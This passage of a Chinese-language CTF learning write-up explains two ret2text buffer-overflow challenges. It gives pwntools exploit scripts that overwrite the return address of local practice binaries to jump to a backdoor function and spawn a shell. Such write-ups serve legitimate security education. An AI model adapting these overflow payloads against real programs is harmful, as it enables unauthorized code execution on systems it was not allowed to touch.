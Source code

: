 把后门地址改成0x4011CF，也就是mov rbp,rsp这一步的地址

### 本题exp：
```plain
from pwn import *
context(log_level="debug", arch="amd64", os="linux")
p = process("./ret2text2")


p.recvuntil("It's a easy challenge")
backdoor=0x4011cf
payload=b'A'*0x108+p64(backdoor)

p.sendline(payload)
 
p.interactive()
```

## 题目5
一样的题，checksec我省略了，直接看函数

![](https://cdn.nlark.com/yuque/0/2025/png/56806197/1760698608719-146e153a-ab82-455f-a284-9acdedfbb7d3.png)

gets更爽，因为可以写无限个字节，v1距离rbp0x20个字节，加上rbp就是0x28

找后门函数

![](https://cdn.nlark.com/yuque/0/2025/png/56806197/1760698608936-3f1786d5-7ea7-402d-9553-f762650a8d46.png)

你以为这是后门函数？再仔细看看呢！！它只是把system('/bin/sh')用puts打印出来了

![](https://cdn.nlark.com/yuque/0/2025/png/56806197/1760698609046-30b47798-d33f-4616-bb30-94587ea0b071.png)

真正的后门在这

execve(“/bin/sh”,0,0)是干嘛的搜索一下，其实就是和system('/bin/sh')等价

### 本题exp：
这题又不需要加ret，具体原理比较复杂，总之做的时候大家试一下就好

```plain
from pwn import *
context(log_level="debug", arch="amd64", os="linux")
p=process('./ret2text1')


payload=b'A'*0x28+p64(0x401257)

p.sendline(payload)

p.interactive()
```

# 学习笔记
xxx

